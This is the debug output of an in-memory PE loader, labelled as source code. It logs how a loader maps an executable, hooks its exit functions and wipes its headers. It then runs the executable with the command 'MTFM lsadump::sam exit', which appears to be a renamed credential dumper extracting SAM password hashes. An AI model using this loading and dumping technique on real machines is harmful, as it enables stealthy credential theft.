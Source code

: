 DEBUG: inmem_pe.c:103:RunPE(): Allocating 1019904 (0xf9000) bytes of RWX memory for file
DEBUG: inmem_pe.c:112:RunPE(): Copying Headers
DEBUG: inmem_pe.c:115:RunPE(): Copying each section to RWX memory 00000178FF170000
DEBUG: inmem_pe.c:127:RunPE(): Applying Relocations
DEBUG: inmem_pe.c:151:RunPE(): Processing the Import Table
DEBUG: inmem_pe.c:159:RunPE(): Loading ADVAPI32.dll
DEBUG: inmem_pe.c:159:RunPE(): Loading Cabinet.dll
DEBUG: inmem_pe.c:159:RunPE(): Loading CRYPT32.dll
DEBUG: inmem_pe.c:159:RunPE(): Loading cryptdll.dll
DEBUG: inmem_pe.c:159:RunPE(): Loading DNSAPI.dll
DEBUG: inmem_pe.c:159:RunPE(): Loading FLTLIB.DLL
DEBUG: inmem_pe.c:159:RunPE(): Loading NETAPI32.dll
DEBUG: inmem_pe.c:159:RunPE(): Loading ole32.dll
DEBUG: inmem_pe.c:159:RunPE(): Loading OLEAUT32.dll
DEBUG: inmem_pe.c:159:RunPE(): Loading RPCRT4.dll
DEBUG: inmem_pe.c:159:RunPE(): Loading SHLWAPI.dll
DEBUG: inmem_pe.c:159:RunPE(): Loading SAMLIB.dll
DEBUG: inmem_pe.c:159:RunPE(): Loading Secur32.dll
DEBUG: inmem_pe.c:159:RunPE(): Loading SHELL32.dll
DEBUG: inmem_pe.c:159:RunPE(): Loading USER32.dll
DEBUG: inmem_pe.c:159:RunPE(): Loading USERENV.dll
DEBUG: inmem_pe.c:159:RunPE(): Loading VERSION.dll
DEBUG: inmem_pe.c:159:RunPE(): Loading HID.DLL
DEBUG: inmem_pe.c:159:RunPE(): Loading SETUPAPI.dll
DEBUG: inmem_pe.c:159:RunPE(): Loading WinSCard.dll
DEBUG: inmem_pe.c:159:RunPE(): Loading WINSTA.dll
DEBUG: inmem_pe.c:159:RunPE(): Loading WLDAP32.dll
DEBUG: inmem_pe.c:159:RunPE(): Loading advapi32.dll
DEBUG: inmem_pe.c:159:RunPE(): Loading msasn1.dll
DEBUG: inmem_pe.c:159:RunPE(): Loading ntdll.dll
DEBUG: inmem_pe.c:159:RunPE(): Loading netapi32.dll
DEBUG: inmem_pe.c:159:RunPE(): Loading KERNEL32.dll
DEBUG: inmem_pe.c:182:RunPE(): Replacing KERNEL32.dll!ExitProcess with ntdll!RtlExitUserThread
DEBUG: inmem_pe.c:159:RunPE(): Loading msvcrt.dll
DEBUG: inmem_pe.c:182:RunPE(): Replacing msvcrt.dll!exit with ntdll!RtlExitUserThread
DEBUG: inmem_pe.c:182:RunPE(): Replacing msvcrt.dll!_cexit with ntdll!RtlExitUserThread
DEBUG: inmem_pe.c:182:RunPE(): Replacing msvcrt.dll!_exit with ntdll!RtlExitUserThread
DEBUG: inmem_pe.c:196:RunPE(): Processing Delayed Import Table
DEBUG: inmem_pe.c:204:RunPE(): Loading bcrypt.dll
DEBUG: inmem_pe.c:204:RunPE(): Loading ncrypt.dll
DEBUG: inmem_pe.c:319:RunPE(): Setting command line: MTFM lsadump::sam exit
DEBUG: inmem_pe.c:433:SetCommandLineW(): Obtaining handle for kernelbase
DEBUG: inmem_pe.c:449:SetCommandLineW(): Searching 2161 pointers
DEBUG: inmem_pe.c:458:SetCommandLineW(): BaseUnicodeCommandLine at 00007FFFD1609E70 : loader  instance
DEBUG: inmem_pe.c:466:SetCommandLineW(): New BaseUnicodeCommandLine at 00007FFFD1609E70 : MTFM lsadump::sam exit
DEBUG: inmem_pe.c:483:SetCommandLineW(): New BaseAnsiCommandLine at 00007FFFD1609E60 : MTFM lsadump::sam exit
DEBUG: inmem_pe.c:530:SetCommandLineW(): Setting ucrtbase.dll!__p__acmdln "loader  instance" to "MTFM lsadump::sam exit"
DEBUG: inmem_pe.c:543:SetCommandLineW(): Setting ucrtbase.dll!__p__wcmdln "loader  instance" to "MTFM lsadump::sam exit"
DEBUG: inmem_pe.c:530:SetCommandLineW(): Setting msvcrt.dll!_acmdln "loader  instance" to "MTFM lsadump::sam exit"
DEBUG: inmem_pe.c:543:SetCommandLineW(): Setting msvcrt.dll!_wcmdln "loader  instance" to "MTFM lsadump::sam exit"
DEBUG: inmem_pe.c:323:RunPE(): Wiping Headers from memory
DEBUG: inmem_pe.c:332:RunPE(): Creating thread for entrypoint of EXE : 00000178FF2007F8
